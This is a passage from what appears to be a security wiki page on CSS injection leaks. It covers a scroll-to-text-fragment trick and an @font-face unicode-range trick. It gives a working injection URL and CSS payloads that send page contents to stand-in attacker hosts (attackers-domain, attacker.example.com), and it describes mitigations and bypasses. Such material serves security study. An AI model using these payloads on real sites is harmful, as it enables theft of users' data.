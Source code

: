 An example of this attack could be:

```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```

Which is sending the code:

```css
<style>:target::before { content : url(http://attackers-domain/?confirmed_existence_of_Administrator_username) }</style>
```

with the scroll-to-text fragment: `#:~:text=Administrator`

If the word Administrator is found, the indicated resource will be loaded.

There are three main mitigations:

1. **STTF can match only words or sentences on a web page**, theoretically making it impossible to leak random secrets or tokens (unless we break down the secret in one-letter paragraphs).
2. It is **restricted to top-level browsing contexts**, so it won’t work in an iframe, making the attack **visible to the victim**.
3. **User-activation gesture is needed for STTF to work**, so only navigations that are a result of user actions are exploitable, which greatly decreases the possibility to automate the attack without user interaction. However, there are certain conditions that the author of the above blog post discovered that facilitate the automation of the attack. Another, similar case, will be presented in PoC#3.
   1. There are some **bypasses** for this like **social engineering**, or **forcing common browser extensions to interact**.

For more information check the original report: [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)

### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

You can specify **external fonts for specific unicode values** that will only be **gathered if those unicode values are present** in the page. For example:

```html
<style>
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?A); /* fetched */
    unicode-range:U+0041;
}
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?B); /* fetched too */
    unicode-range:U+0042;
}
@font-face{
    font-family:poc;
    src: url(http://attacker.example.com/?C); /* not fetched */
    unicode-range:U+0043;
}
#sensitive-information{
    font-family:poc;
}
</style>

<p id="sensitive-information">AB</p>htm
```
